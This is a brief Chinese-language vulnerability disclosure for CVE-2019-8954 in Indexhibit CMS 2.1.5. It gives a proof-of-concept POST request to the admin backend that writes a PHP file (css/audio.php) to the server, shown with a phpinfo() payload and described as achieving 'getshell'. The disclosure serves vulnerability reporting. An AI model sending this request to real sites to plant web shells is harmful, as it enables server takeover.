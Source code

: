### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|indexhibit cms v2.1.5 直接编辑php文件getshell|2019-02-20|yc（3365487579@qq.com）|[https://www.indexhibit.org/](https://www.indexhibit.org/) | [https://www.indexhibit.org/](https://www.indexhibit.org/) |v2.1.5| [CVE-2019-8954](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8954)|  

#### 漏洞概述  

> indexhibit CMS 2.1.5版本存在一个直接编辑php文件的漏洞，导致getshell。   

### POC实现代码如下：  

> 当我们登录进后台后，向/ndxzstudio/?a=system  
> post数据：

``` raw
upd_jxcode=true&v=%253C%253Fphp%2520phpinfo()%253B%253F%253E&id=%2Fcss%2Faudio.php
```
> 即可在/css/目录写入一个php文件audio.php。  
![POST数据](img/7.png)

> 成功getshell：
![POST数据](img/8.png)

